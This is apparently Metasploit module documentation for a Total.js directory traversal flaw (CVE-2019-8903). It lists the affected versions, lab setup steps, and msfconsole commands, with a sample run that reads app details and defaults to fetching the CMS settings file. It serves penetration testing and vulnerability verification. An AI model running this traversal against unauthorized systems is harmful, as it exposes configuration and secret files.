 ## Description

This module check and exploits a Directory Traversal vulnerability in Total.js framework < 3.2.4 (CVE-2019-8903). Here is a list of accepted extensions: flac, jpg, jpeg, png, gif, ico, js, css, txt, xml, woff, woff2, otf, ttf, eot, svg, zip, rar, pdf, docx, xlsx, doc, xls, html, htm, appcache, manifest, map, ogv, ogg, mp4, mp3, webp, webm, swf, package, json, md, m4v, jsx, heif, heic.

## Vulnerable Application

Affecting total.js package, versions >=2.1.0 <2.1.1 || >=2.2.0 <2.2.1 || >=2.3.0 <2.3.1 || >=2.4.0 <2.4.1 || >=2.5.0 <2.5.1 || >=2.6.0 <2.6.3 || >=2.7.0 <2.7.1 || >=2.8.0 <2.8.1 || >=2.9.0 <2.9.5 || >=3.0.0 <3.0.1 || >=3.1.0 <3.1.1 || >=3.2.0 <3.2.4

## Verification Steps

1. On a Node v8 environment do: `npm install total.js@3.2.3`
2. Install an app on top of the Total.js framework, something like [Total.js CMS](https://github.com/totaljs/cms)
  * `git clone https://github.com/totaljs/cms.git`
  * `cd cms && npm install`
3. Start `msfconsole`
4. `use auxiliary/scanner/http/totaljs_traversal`
5. `set RHOST <IP>`
6. `set RPORT <PORT>`
7. `run`
8. Verify you get Total.js version if the target is vulnerable!

## Options

* **TARGETURI**: Path to Total.js App installation (“/” is the default)
* **DEPTH**: Traversal depth (“1” is the default)
* **FILE**: File to obtain (“databases/settings.json” is the default for Total.js CMS App)

## Scenario

### Tested on Total.js framework 3.2.0 and Total.js CMS 12.0.0

```
msf5 > use auxiliary/scanner/http/totaljs_traversal 
msf5 auxiliary(scanner/http/totaljs_traversal) > set RHOST 192.168.2.59
RHOST => 192.168.2.59
msf5 auxiliary(scanner/http/totaljs_traversal) > set RPORT 8320
RPORT => 8320
msf5 auxiliary(scanner/http/totaljs_traversal) > run
[*] Running module against 192.168.2.59

[*] Total.js version is: ^3.2.0
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/totaljs_traversal) >
```